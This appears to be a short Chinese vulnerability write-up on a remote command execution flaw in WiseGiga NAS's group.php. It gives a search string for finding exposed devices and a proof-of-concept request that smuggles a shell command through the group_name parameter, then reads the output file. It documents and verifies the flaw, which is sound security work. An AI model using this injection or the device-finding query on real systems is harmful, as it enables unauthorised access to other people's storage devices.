



WiseGiga NAS group.php 远程命令执行漏洞¶
漏洞描述¶
WiseGiga 是一家销售网络连接存储（NAS ）产品的韩国公司。
WiseGiga NAS group.php文件存在远程命令执行漏洞，攻击者通过发送特定的请求包可以获取服务器权限
漏洞影响¶
WiseGiga NAS
网络测绘¶
app="WISEGIGA-NAS"
漏洞复现¶
主页面

验证POC
/admin/group.php?memberid=root&cmd=add&group_name=d;id>1.txt

/admin/1.txt
